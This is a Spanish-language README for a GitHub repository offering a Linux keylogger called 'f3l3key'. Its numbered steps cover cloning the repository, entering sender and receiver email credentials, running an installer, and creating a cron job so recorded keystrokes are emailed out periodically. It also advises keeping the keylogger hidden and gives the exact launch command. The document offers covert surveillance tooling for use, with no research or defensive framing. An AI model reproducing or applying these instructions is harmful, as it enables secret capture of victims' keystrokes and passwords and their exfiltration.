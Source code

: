 # f3l3key
##############################################################################################<br><br>
En este repositorio podrás descargar un KEYLOGGER y ponerlo en funcionamiento. Con este podrás generar un archivo con todas las pulsaciones del teclado y enviarlo por correo electrónico.<br><br>
[![keylogger.jpg](https://i.postimg.cc/rwDvqpcB/keylogger.jpg)](https://postimg.cc/LJMyT2JD)
<br><br>
PASOS A SEGUIR<br><br>
1- Sitúate en una terminal de Ubuntu y aplica la siguiente comanda: git clone https://github.com/f3l3p1n0/f3l3key.git<br>
2- Abre el archivo tester.sh y cambia: la ruta, correo emisor, la clave del emisor y el correo receptor. Para seguir con mayor detalle estos pasos
diríjete a este artículo: https://f3l3p1n0.github.io/posts/f3l3key/post.html<br>
3- Una vez editado el archivo, guárdalo y dale permisos de ejecución a los 3 archivos.<br>
4- Ejecuta el archivo installer.sh<br>
5- Cuando se detenga en el apartado de crontab, presiona 1 y la tecla enter.<br>
6- Guarda el archivo y habrás creada la nueva tarea Cron.<br>
7- Listo, ahora debes esperar los minutos correspondientes para recibir en tu cuenta receptora los correos.<br><br>

pd: Es recomendable que el keylogger se ubique en una posición oculta. Ten en cuenta que debes especificar la ruta donde se encuentra el keylogger, de lo contrario no funcionará. De igual manera, debes respetar la siguiente linea con los mismos espacios y estructura:

python3 /home/user/Descargas/f3l3key.py emisor@gmail.com pega_la_clave_aqui receptor@hotmail.com &

